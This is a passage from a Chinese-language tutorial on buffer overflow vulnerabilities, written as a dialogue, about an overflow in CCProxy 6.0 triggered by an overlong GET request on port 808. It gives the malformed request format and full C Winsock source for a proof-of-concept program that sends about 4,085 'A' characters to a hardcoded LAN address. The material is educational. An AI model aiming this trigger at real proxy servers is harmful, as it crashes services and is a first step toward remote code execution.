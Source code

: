 ![](img/Q 版缓冲区溢出教程 214403.jpg)

“这下可以通过 CCProxy 代理浏览外面的网页了。”

“哦，好爽啊！”

“嗯，除了 808 端口，CCProxy 还开放了 1090、2121 等端口。CCProxy 6.0 版本有多处漏洞，这里我们就分析对 808 端口请求超长‘GET’字符串时，会引发的缓冲区溢出漏洞。”

# 7.1.2 漏洞的定位和利用

### 7.1.2 漏洞的定位和利用

“我们用 VC 写一个程序，往 CCProxy 的 808 端口发送超长字符串，其格式如下：”

```
GET \AAAAAAAAAAAAAA（4085 个 A） HTTP/1.0\x0D\x0A\x0D\x0A 
```

“发送程序 4085byte.cpp（光盘有收录）比较简单，就是网络通信的客户端程序。给出源代码如下，大家可以再巩固一下 socket 编程。”

```
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"Ws2_32")
int main()
{
    WSADATA ws;
    SOCKET s;
    int ret;
    char buf[5000];
    int i;
    int nLen;
    //初始化 wsa
    WSAStartup(MAKEWORD(2,2),&ws);
    //建立 socket
    s=WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    //连接对方 808 端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(808);
    server.sin_addr.s_addr=inet_addr("192.168.3.151");
    //连接！
    if (connect(s,(struct sockaddr *)&server,sizeof(server) ) < 0)
    {
        printf("connect error");
        return -1;
    }
    nLen = 0;
    strcpy(buf, "GET /");
    nLen += sizeof("GET /")-1;
    for(nLen; nLen<4080+5; nLen++)
    {
        buf[nLen] = 'A';
    }
    buf[nLen] = '\0';
    strcat(buf, " HTTP/1.0\x0D\x0A\x0D\x0A");
    nLen += sizeof(" HTTP/1.0\x0D\x0A\x0D\x0A")-1;
    //构造字符串后，发送
    send(s, buf, nLen , 0);
    printf("send OK!");
    closesocket(s); 
    WSACleanup(); 
    return 0;
} 
```